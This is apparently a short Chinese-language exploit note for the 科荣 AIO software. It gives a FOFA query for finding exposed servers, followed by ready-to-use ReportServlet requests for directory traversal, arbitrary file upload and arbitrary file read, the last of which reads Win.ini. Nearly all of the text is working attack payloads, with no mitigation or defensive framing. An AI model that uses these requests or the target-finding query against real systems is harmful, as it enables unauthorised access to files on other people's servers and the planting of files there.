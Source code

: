 ## 科荣 AIO任意文件上传-目录遍历-任意文件读取漏洞

## fofa
```
body="changeAccount('8000')"
```
## 目录遍历
```
http://xxxxxx/ReportServlet?operation=getFileList&path=../../../
```

## 文件上传
```
POST /ReportServlet?operation=saveFormatFile&fileName=demo.css&language= HTTP/1.1
Host: xxxxxx
Connection: lose
Content-Type: application/x-www-form-urlencoded
Content-Length: 2

demo
```

## 任意文件读取
```
http://xxxxx/ReportServlet?operation=getPicFile&fileName=/DISKC/Windows/Win.ini
```
